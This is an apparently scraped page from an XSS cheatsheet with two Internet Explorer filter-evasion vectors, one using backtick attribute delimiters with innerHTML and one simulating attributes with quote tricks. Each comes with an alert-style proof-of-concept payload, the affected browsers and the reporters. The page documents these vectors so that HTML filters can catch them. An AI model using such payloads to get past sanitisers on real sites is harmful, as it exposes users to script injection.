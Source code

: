 Internet Explorer treats the accent grave (`) as an attribute delimiter like " and '. The quotation mark (") will be stripped from the attribute value when using the innerHTML property in case it doesn't contain space.


```
<div id="div1"><input value="``onmouseover=alert(1)"></div> <div id="div2"></div><script>document.getElementById("div2").innerHTML = document.getElementById("div1").innerHTML;</script>
```

Make sure the HTML filter you use is aware of the fact that the accent grave is a valid attribute delimiter for IE too - especially if users are allowed to post harmless JavaScript (JSReg, Google Caja). Be very careful when handling user generated HTMl in the DOM later on. The innerHTML property does not always contain what it's supposed to.

*   internet explorer 6.0
*   internet explorer 8.0 (unpatched)

*   xss
*   javascript
*   internet explorer
*   script
*   dom
*   innerhtml

*   [#97](#97)
*   [#98](#98)
*   [#128](#128)

reporter：hasegawayosuke

### Simulating attributes in IE[#62](#62)[test](test/#62)

This vector simulates an attribute in IE by using a single quote to trick filters. This works up to IE9 in standards mode and in latest IE using older document modes.


```
<!-- IE 6-8 --> <x '="foo"><x foo='><img src=x onerror=alert(1)//'> <!-- IE 6-9 --> <! '="foo"><x foo='><img src=x onerror=alert(2)//'> <? '="foo"><x foo='><img src=x onerror=alert(3)//'>
```

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   xss
*   javascript
*   attribute
*   simulating
*   parser
*   regex

*   [#102](#102)
*   [#108](#108)
*   [#133](#133)

reporter：Algol, jackmasa, LeverOne, White Jordan
